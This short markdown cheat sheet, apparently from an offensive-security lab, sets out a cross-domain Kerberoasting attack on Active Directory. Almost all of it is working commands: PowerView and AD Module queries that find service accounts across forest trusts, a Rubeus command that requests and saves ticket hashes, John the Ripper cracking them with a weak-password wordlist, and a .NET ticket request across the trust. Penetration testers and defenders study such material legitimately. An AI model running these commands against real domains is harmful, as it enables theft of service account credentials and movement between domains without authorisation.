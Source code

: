 # 1 Kerberoast

## Cross Domain Attacks \[ Kerberoast ]

## Methodology/Steps

> 1. First find all the SPN accounts
> 2. Request a TGS for the user who has forest trust
> 3. Crack the ticket using JTR
> 4. Using PowerShell request a TGS across trust

## PowerShell

### 1. Find user accounts used as Service account

> It is possible to execute Kerberoast across Forest trusts

```powershell
# Powerview
Get-NetUser -SPN
Get-NetUser -SPN -Verbose | select displayname,memberof
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}

# AD Module
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName -Server $_.Name}
```

## Binaries

### 2. Request a TGS

```powershell
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt
```

### 3. Check for the TGS

```powershell
klist
```

### 4. Crack the ticket using JTR

```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

## PowerShell

### 5. Request TGS across trust

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList MSSQLSvc/eu-file.eu.local@eu.local
```

